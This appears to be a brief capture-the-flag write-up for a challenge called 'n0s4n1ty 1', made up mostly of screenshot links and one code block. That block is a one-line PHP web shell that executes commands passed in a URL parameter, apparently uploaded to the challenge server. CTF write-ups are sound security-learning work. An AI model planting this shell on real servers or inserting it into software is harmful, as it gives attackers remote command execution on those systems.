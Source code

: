 ## n0s4n1ty 1
![image](https://github.com/user-attachments/assets/3caf9453-0a33-4a05-b1a7-9386ceb61080)
![image](https://github.com/user-attachments/assets/35d0187c-ad3e-405b-87b2-8d3d4d6d4393)

### 解題過程

```php
<?php system($_GET['cmd']); ?>
```
![image](https://github.com/user-attachments/assets/49c7b898-dfc3-4872-bafa-9fcf6e478c69)

![image](https://github.com/user-attachments/assets/b3ca8609-11aa-4daf-96c6-5f5078531567)

![image](https://github.com/user-attachments/assets/14cb8760-c8ae-4af4-a1fb-70a17437483f)

![image](https://github.com/user-attachments/assets/98a68f7c-119f-48a1-ae88-1937ec0d5c6e)
